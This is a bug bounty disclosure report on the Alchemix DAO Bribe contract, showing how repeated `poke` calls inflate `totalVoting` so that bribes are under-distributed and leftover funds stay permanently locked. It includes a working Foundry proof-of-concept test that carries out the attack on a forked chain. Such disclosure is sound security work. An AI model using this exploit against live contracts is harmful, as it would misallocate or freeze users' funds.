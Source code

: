 
# Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

Submitted on Mon May 20 2024 18:33:37 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31520

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

## Vulnerability Details

In `Voter.sol` In an epoch user can vote by calling `vote` function or poke by calling `poke` function if user has already voted in that epoch or previous epoch. 
User is also allowed to call `poke` function multiple times in an epoch, calling `poke` function multiple times does not changes the vote and does not inflate voting power. 
When vote or poke is called in an epoch, user becomes eligible for claiming bribes in next epoch. When user calls `vote` or `poke` function two external calls are made to bribe contract `withdraw` and `deposit` functions respectively . when voting power is zero call to `withdraw` function is skipped.

In `Bribe.sol`
```solidity
function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }
```
When `deposit` is called these state variables `totalSupply`,`balanceOf[tokenId]` and `totalVoting` are updated with voting power of user.

In `Bribe.sol`
```
function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
But when `withdraw` is called only `totalSupply` and `balanceOf[tokenId]` state variables are updated.

```
function earned(address token, uint256 tokenId) public view returns (uint256) {
       //...//
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; // getting inflated totalVotes

               //...//
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
       //...//
       uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; // getting inflated totalVotes 
        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```

The issue is when poke is called by a user multiple times `totalVoting` is inflated which causes incorrect calculation of bribe reward for all the participating users.

  > The POC steps are as follows
* User A and User B(BlackHat) create two token with same amount and maxLock enabled.
* In Epoch 1 user A votes in `Voter.sol` contract by calling `vote` function .
* User B (BlackHat) votes  in `Voter.sol` contract by calling `vote` function
* User B calls `poke` function multiple times from `Voter.sol` contract and inflating `totalVoting` variable of Bribe contract.
* Epoch 2 starts and now both user claims their bribes but because of BlackHat   both user gets incorrect bribes less than what they should have gotten , they should have received  half of total token balance of Bribe contract each.
* The bribe contract is left with remaining token balance which cannot be claimed later.


## Impact Details
* The vulnerability leads to incorrect bribe distribution , all voter receives less bribe reward than they should have received.
* The remaining bribe reward is forever locked in the bribe contract.
* Funds are lost for protocol and participating users.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-329
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-280

        
## Proof of concept
## Proof of Concept
* Add this test to `src/test/Voting.t.sol` and run with
`forge test --mt testPocBribeAccountingErrorwithPoke  --rpc-url $RPC_URL -vvvv`
```solidity
    function testPocBribeAccountingErrorwithPoke() public {

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); 
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); 

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef votes
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
    
        //admin(BLACKHAT) votes
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        //Attack happening here
        for(uint256 i = 0;i<10;i++){
            vm.prank(admin);
            voter.poke(tokenId1);
        }
        

        //start 2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        uint256 balanceEnd = IERC20(bal).balanceOf(bribeAddress);
        assertGt(balanceEnd,0,"balance should have been zero but it is greater than 0");
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        // start 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //remaining balance is locked in the contract and can no longer be claimed
        assertEq(balanceEnd1,balanceEnd);

    }
```